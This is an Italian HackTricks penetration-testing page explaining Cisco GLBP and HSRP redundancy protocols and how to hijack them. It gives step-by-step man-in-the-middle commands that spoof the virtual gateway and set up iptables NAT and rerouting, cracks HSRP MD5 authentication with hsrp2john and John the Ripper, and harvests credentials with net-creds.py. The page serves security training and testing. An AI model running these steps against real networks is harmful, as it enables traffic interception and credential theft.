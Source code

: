 # Attacchi GLBP & HSRP

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Panoramica sull'Interruzione di FHRP

### Approfondimenti su FHRP
FHRP è progettato per fornire robustezza di rete unendo più router in un'unica unità virtuale, migliorando così la distribuzione del carico e la tolleranza ai guasti. Cisco Systems ha introdotto protocolli di spicco in questa suite, come GLBP e HSRP.

### Approfondimenti sul Protocollo GLBP
La creazione di Cisco, GLBP, funziona sullo stack TCP/IP, utilizzando UDP sulla porta 3222 per la comunicazione. I router in un gruppo GLBP scambiano pacchetti "hello" a intervalli di 3 secondi. Se un router non invia questi pacchetti per 10 secondi, si presume che sia offline. Tuttavia, questi timer non sono fissi e possono essere modificati.

### Operazioni e Distribuzione del Carico di GLBP
GLBP si distingue per consentire la distribuzione del carico tra i router utilizzando un singolo IP virtuale accoppiato con più indirizzi MAC virtuali. In un gruppo GLBP, ogni router è coinvolto nell'inoltro dei pacchetti. A differenza di HSRP/VRRP, GLBP offre un vero bilanciamento del carico attraverso diversi meccanismi:

- **Bilanciamento del Carico Dipendente dall'Host:** Mantiene l'assegnazione costante dell'indirizzo MAC AVF a un host, essenziale per configurazioni NAT stabili.
- **Bilanciamento del Carico Round-Robin:** L'approccio predefinito, alternando l'assegnazione dell'indirizzo MAC AVF tra gli host richiedenti.
- **Bilanciamento del Carico Round-Robin Ponderato:** Distribuisce il carico in base a metriche "Peso" predefinite.

### Componenti Chiave e Terminologie in GLBP
- **AVG (Gateway Virtuale Attivo):** Il router principale, responsabile dell'assegnazione degli indirizzi MAC ai router peer.
- **AVF (Inoltratore Virtuale Attivo):** Un router designato per gestire il traffico di rete.
- **Priorità GLBP:** Una metrica che determina l'AVG, partendo da un valore predefinito di 100 e variando tra 1 e 255.
- **Peso GLBP:** Riflette il carico attuale su un router, regolabile manualmente o tramite il Tracciamento degli Oggetti.
- **Indirizzo IP Virtuale GLBP:** Serve come gateway predefinito di rete per tutti i dispositivi connessi.

Per le interazioni, GLBP utilizza l'indirizzo multicast riservato 224.0.0.102 e la porta UDP 3222. I router trasmettono pacchetti "hello" a intervalli di 3 secondi e vengono considerati non operativi se un pacchetto viene perso per una durata di 10 secondi.

### Meccanismo di Attacco GLBP
Un attaccante può diventare il router principale inviando un pacchetto GLBP con il valore di priorità più alto (255). Ciò può portare a attacchi DoS o MITM, consentendo l'intercettazione o il reindirizzamento del traffico.

### Esecuzione di un Attacco GLBP con Loki
[Loki](https://github.com/raizo62/loki_on_kali) può eseguire un attacco GLBP iniettando un pacchetto con priorità e peso impostati su 255. I passaggi pre-attacco coinvolgono la raccolta di informazioni come l'indirizzo IP virtuale, la presenza di autenticazione e i valori di priorità del router utilizzando strumenti come Wireshark.

Passaggi dell'Attacco:
1. Passare alla modalità promiscua e abilitare l'inoltro IP.
2. Identificare il router di destinazione e recuperare il suo IP.
3. Generare un ARP Gratuito.
4. Iniettare un pacchetto GLBP malintenzionato, impersonando l'AVG.
5. Assegnare un indirizzo IP secondario all'interfaccia di rete dell'attaccante, riflettendo l'IP virtuale GLBP.
6. Implementare SNAT per una visibilità completa del traffico.
7. Regolare il routing per garantire un accesso continuo a Internet attraverso il router AVG originale.

Seguendo questi passaggi, l'attaccante si posiziona come "uomo nel mezzo", in grado di intercettare e analizzare il traffico di rete, inclusi dati non crittografati o sensibili.

Per dimostrazione, ecco i frammenti di comando richiesti:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Spiegazione passiva dell'intercettazione HSRP con dettagli sui comandi

#### Panoramica di HSRP (Hot Standby Router/Redundancy Protocol)
HSRP è un protocollo proprietario di Cisco progettato per la ridondanza del gateway di rete. Consente la configurazione di più router fisici in un'unica unità logica con un indirizzo IP condiviso. Questa unità logica è gestita da un router primario responsabile del reindirizzamento del traffico. A differenza di GLBP, che utilizza metriche come priorità e peso per il bilanciamento del carico, HSRP si basa su un singolo router attivo per la gestione del traffico.

#### Ruoli e terminologia in HSRP
- **Router attivo HSRP**: Il dispositivo che funge da gateway, gestendo il flusso di traffico.
- **Router standby HSRP**: Un router di backup, pronto a prendere il controllo se il router attivo fallisce.
- **Gruppo HSRP**: Un insieme di router che collaborano per formare un singolo router virtuale resiliente.
- **Indirizzo MAC HSRP**: Un indirizzo MAC virtuale assegnato al router logico nella configurazione HSRP.
- **Indirizzo IP virtuale HSRP**: L'indirizzo IP virtuale del gruppo HSRP, che funge da gateway predefinito per i dispositivi connessi.

#### Versioni di HSRP
HSRP ha due versioni, HSRPv1 e HSRPv2, che differiscono principalmente per capacità di gruppo, utilizzo di IP multicast e struttura dell'indirizzo MAC virtuale. Il protocollo utilizza specifici indirizzi IP multicast per lo scambio di informazioni di servizio, con pacchetti Hello inviati ogni 3 secondi. Un router è considerato inattivo se non riceve alcun pacchetto entro un intervallo di 10 secondi.

#### Meccanismo di attacco HSRP
Gli attacchi HSRP coinvolgono il prendere il controllo del ruolo del Router attivo iniettando un valore di priorità massimo. Ciò può portare a un attacco Man-In-The-Middle (MITM). I passaggi essenziali prima dell'attacco includono la raccolta di dati sulla configurazione HSRP, che può essere fatta utilizzando Wireshark per l'analisi del traffico.

#### Passaggi per aggirare l'autenticazione HSRP
1. Salvare il traffico di rete contenente i dati HSRP in un file .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Estrarre gli hash MD5 dal file .pcap utilizzando hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Craccare gli hash MD5 utilizzando John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Esecuzione dell'iniezione HSRP con Loki**

1. Avviare Loki per identificare le pubblicità HSRP.
2. Impostare l'interfaccia di rete in modalità promiscua e abilitare l'inoltro IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Utilizzare Loki per mirare a un router specifico, inserire la password HSRP craccata e eseguire le configurazioni necessarie per impersonare il Router attivo.
4. Dopo aver ottenuto il ruolo di Router attivo, configurare l'interfaccia di rete e le tabelle IP per intercettare il traffico legittimo.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modificare la tabella di routing per instradare il traffico attraverso il precedente Router attivo.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Utilizzare net-creds.py o un'utilità simile per catturare le credenziali dal traffico intercettato.
```shell
sudo python2 net-creds.py -i eth0
```

L'esecuzione di questi passaggi mette l'attaccante in una posizione per intercettare e manipolare il traffico, simile alla procedura per l'intercettazione di GLBP. Ciò evidenzia la vulnerabilità nei protocolli di ridondanza come HSRP e la necessità di misure di sicurezza robuste.

